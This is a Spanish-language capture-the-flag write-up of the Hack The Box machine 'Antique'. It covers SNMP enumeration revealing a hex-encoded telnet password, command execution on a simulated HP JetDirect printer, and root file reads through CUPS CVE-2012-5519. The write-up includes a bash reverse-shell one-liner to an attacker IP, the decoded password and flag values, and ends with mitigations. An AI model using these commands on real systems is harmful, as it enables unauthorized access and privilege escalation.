





# Antique

[{ .maquina-icono }](https://app.hackthebox.com/machines/Antique)

## Resumen

Máquina Linux que simula una **impresora de red HP JetDirect**. El acceso por **telnet**
pide contraseña, y esa contraseña está expuesta por **SNMP** (comunidad `public`) en
hexadecimal: al decodificarla se entra por telnet y se obtiene la flag de usuario. La
escalada a root aprovecha **CUPS 1.6.1** (CVE-2012-5519), que permite a un usuario local
leer ficheros como root a través de su interfaz web.

## Reconocimiento

Ping para ver el TTL y el sistema operativo:

```
64 bytes from 10.129.83.95: icmp_seq=1 ttl=63 time=59.1 ms
```

Por el TTL (cercano a 64) es una máquina Linux.

## Enumeración

### Puertos

```
nmap -p- --open -T4 --min-rate 5000 -Pn 10.129.83.94
```

```
23/tcp open  telnet
```

Solo hay un **telnet**. Escaneando también UDP aparece otro servicio clave:

```
161/udp open  snmp
```

El telnet corresponde a un gestor tipo **HP JetDirect** (impresora de red) y pide
contraseña. Con solo dos puertos, la pista tiene que estar en **SNMP** (161/UDP).

### SNMP: la contraseña expuesta

SNMP en versiones antiguas suele tener la comunidad `public` sin autenticar. La
consultamos con `snmpwalk`:

```
snmpwalk -v 2c -c public 10.129.83.94
```

```
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

Confirmado que es la impresora. Volcamos todo el árbol (añadiendo un `.`):

```
snmpwalk -v 2c -c public 10.129.83.94 .
```



Y aparece una cadena en **hexadecimal** que es la contraseña:



La decodificamos con `xxd`:

```
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33" | xxd -r -p
```

```
P@ssw0rd@123!!123
```

## Explotación

Nos conectamos por telnet y usamos esa contraseña. En este gestor los comandos se ejecutan
anteponiendo `exec`:

```
telnet 10.129.83.94
# (contraseña: P@ssw0rd@123!!123)
exec cat /home/*/user.txt
```

```
USER FLAG -> edc696533fba4968bdd74a02eeb342dd
```

Para trabajar más cómodo, lanzamos una *reverse shell* por el mismo método y escuchamos
con `nc -lvnp 4444`:

```
exec bash -c "bash -i >& /dev/tcp/10.10.16.120/4444 0>&1"
```

## Escalada de privilegios

Ya dentro, un proceso escucha solo en *loopback*. Con `ss` vemos que es un `python3` y, más
importante, el puerto **631 (CUPS)** escuchando en `127.0.0.1`:

```
ss -tulpn
```



Comprobamos la versión de CUPS (el servicio de impresión de Linux):

```
cups-config --version      # 1.6.1
```

CUPS 1.6.1 tiene la **CVE-2012-5519**: en ciertas distribuciones guarda la clave de la
interfaz web de administración en `/var/run/cups/certs/0` con permisos que permiten a un
usuario local (del grupo `lpadmin`) **leer o escribir ficheros arbitrarios como root** a
través de la interfaz web.

```
cat /var/run/cups/certs/0
```



Con ese acceso de administración, el truco está en la variable **`ErrorLog`**: se apunta al
fichero que queremos leer y luego se pide el *error log*, que CUPS sirve con permisos de
root. Para leer la flag de root:

```
# ErrorLog = /root/root.txt
curl 127.0.0.1:631/admin/log/error_log?
```

```
ROOT FLAG -> f6f81cae223f42166282be380dd5cf7d
```

## Mitigación

- **Asegurar SNMP**: no dejar la comunidad `public` activa ni accesible, usar SNMPv3 con
  autenticación y cifrado, y no almacenar credenciales en la MIB.
- **No reutilizar la contraseña de la impresora** y no exponer el panel por telnet, un
  protocolo sin cifrar; usar alternativas seguras.
- **Actualizar CUPS** para cerrar la CVE-2012-5519 y revisar los permisos de
  `/var/run/cups/certs/`, de modo que la clave de administración no sea legible por
  usuarios sin privilegios.
- Aplicar el **principio de mínimo privilegio** a las cuentas del grupo `lpadmin`.

## Qué he aprendido

- SNMP con la comunidad `public` es una mina de información: aquí daba directamente la
  contraseña (aunque «ofuscada» en hexadecimal, que no es protección).
- Un servicio que solo escucha en `127.0.0.1` no está a salvo una vez tienes shell: CUPS en
  local fue la vía a root.
- Las CVE «viejas» de servicios poco habituales (impresión, SNMP) siguen siendo muy
  rentables: hay que enumerar versiones y buscarlas.
